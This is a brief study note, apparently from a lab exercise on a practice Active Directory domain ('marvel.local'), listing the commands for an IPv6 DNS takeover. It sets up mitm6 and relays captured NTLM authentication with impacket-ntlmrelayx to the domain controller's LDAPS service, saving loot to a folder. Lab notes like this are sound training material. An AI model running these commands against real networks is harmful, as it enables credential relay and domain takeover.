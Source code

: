 # On Kali
---
- Setting up mitm6:
	- `git clone https://github.com/dirkjanm/mitm6.git`
	- `python3 -m venv mitm6_env`
	- `source mitm6_env/bin/activate`
	- `pip install -r requirements.txt`
	- Add this in `mitm6.py` file as we are using VPN:
		- ![[Pasted image 20250329024836.png]]
- `sudo python3 mitm6.py -d marvel.local`
	- d -> domain name
	- ![[Pasted image 20250329024902.png]]

- Start `impacket-ntlmrelayx` as:
	- Needs `DC` IP
	- `impacket-ntlmrelayx -6 -t ldaps://10.0.1.4 -wh fakewpad.marvel.local -l lootme`
		- `6` -> IPv6
		- `-t` -> target
		- `-wh` -> wpad
		- `-l` -> lootfile